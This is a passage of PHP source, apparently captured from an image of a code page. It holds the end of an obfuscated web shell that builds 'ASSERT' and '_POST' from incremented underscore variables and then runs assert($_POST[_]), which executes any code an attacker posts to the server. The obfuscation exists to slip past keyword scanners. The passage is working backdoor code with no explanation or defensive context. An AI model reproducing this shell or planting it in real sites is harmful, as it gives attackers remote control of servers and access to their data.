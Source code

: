 ```php
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;

$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;

$_=$$____;
$___($_[_]); // ASSERT($_POST[_]);
```

